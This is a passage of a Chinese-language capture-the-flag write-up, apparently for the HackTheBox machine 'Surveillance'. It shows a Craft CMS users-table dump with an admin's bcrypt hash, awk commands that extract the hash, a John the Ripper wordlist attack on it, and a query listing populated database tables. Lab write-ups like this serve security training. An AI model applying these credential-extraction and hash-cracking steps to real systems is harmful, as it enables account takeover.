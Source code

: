 ```bash
|  1 |    NULL |      1 |       0 |      0 |         0 |     1 | admin    | Matthew B | Matthew   | B        | admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe | 2023-10-17 20:42:03 | NULL               | 2023-12-13 02:56:39     |                 1 | 2023-12-13 02:56:39  | NULL        |            1 | NULL             | NULL                       | NULL            |                     0 | 2023-10-17 20:38:29    | 2023-10-11 17:57:16 | 2023-12-13 02:56:39 |
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
1 row in set (0.001 sec)
```

发现用户 `Matthew` 的凭据，home目录也有个 `matthew` 文件夹，所以直接JTR尝试暴破密码：
```bash
└─$ cat creds-mysql.txt | grep Matthew | awk -F '|' '{OFS=":"; print $11,$14}' | tr -d ' '
Matthew:$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe

└─$ cat creds-mysql.txt | grep Matthew | awk -F '|' '{OFS=":"; print $11,$14}' | tr -d ' ' > cred-Matthew.txt

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt cred-Matthew.txt
```

运行了一段时间觉得不对，应该是兔子洞……

还有很多表，顺便看看还有哪些是有数据的。看表名也没什么值得注意，暂时先放放:
```bash
MariaDB [craftdb]> SELECT table_name,table_rows FROM information_schema.tables WHERE table_schema = 'craftdb' AND table_rows > 0;
+-------------------+------------+
| table_name        | table_rows |
+-------------------+------------+
| elements          |         13 |
| entries           |         12 |
| queue             |          1 |
| content           |         13 |
| fieldlayouttabs   |          2 |
| searchindex       |         10 |
| changedattributes |         19 |
| fieldlayouts      |          2 |
| entrytypes        |          2 |
| revisions         |          8 |
| users             |          1 |
| projectconfig     |        133 |
| elements_sites    |         13 |
| sections_sites    |          2 |
| widgets           |          4 |
| migrations        |         30 |
| resourcepaths     |         31 |
| sections          |          2 |
| sessions          |          1 |
+-------------------+------------+
19 rows in set (0.002 sec)
```
